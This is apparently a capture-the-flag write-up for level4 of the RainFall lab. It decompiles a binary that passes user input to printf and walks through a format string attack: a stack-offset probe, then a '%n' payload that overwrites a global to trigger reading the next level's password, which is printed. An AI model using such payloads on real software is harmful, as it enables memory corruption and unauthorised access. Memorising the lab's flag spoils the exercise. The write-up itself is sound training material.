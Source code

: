 ## Basic analysis
There is **level4** binary waiting for us, as in previous level. When examined, it apparently doeas the same thing as in the level3:
~~~shell
./level4
42 let me pass
42 let me pass
~~~
Waits for stdin and prints it back. Let's use **Ghidra** again to look inside:
~~~C
void main(void)

{
  n();
  return;
}

void n(void)

{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  p(local_20c);
  if (m == 0x1025544) {
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}

void p(char *param_1)

{
  printf(param_1);
  return;
}
~~~
As we can see, the program does the same thing as in level3, just using one more function to print the output. There is still the variable **m**
waiting to be compared to **16930116**. It is at the **0x08049810** memory position.

## Format string attack
We will do format strimg attack again, we just use another formatter as the value of 16930116 is too long. It will be the **%d**, that let us do
dynamic field with setting - like that: **%16930116d**. The rest will be the same as in level3:

**Step 1**: Find the position in the stack:
~~~shell
level4@RainFall:~$ python -c 'print "AAAA" + " %x" * 20' > /tmp/exploit
level4@RainFall:~$ cat /tmp/exploit - | ./level4
AAAA b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825
~~~
Found on 12th position.

**Step 2**: Payload construction: 
1. memory address of m
2. formatter minus four bytes for memaddress of m + positioning on 12 position in stack: **%16930112d%12$n**
~~~shell
level4@RainFall:~$ python -c 'print "\x08\x04\x98\x10"[::-1] + "%16930112d%12$n"' > /tmp/flag4
level4@RainFall:~$ cat /tmp/flag4 | ./level4
[... lots of stuff ...]
 -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
~~~

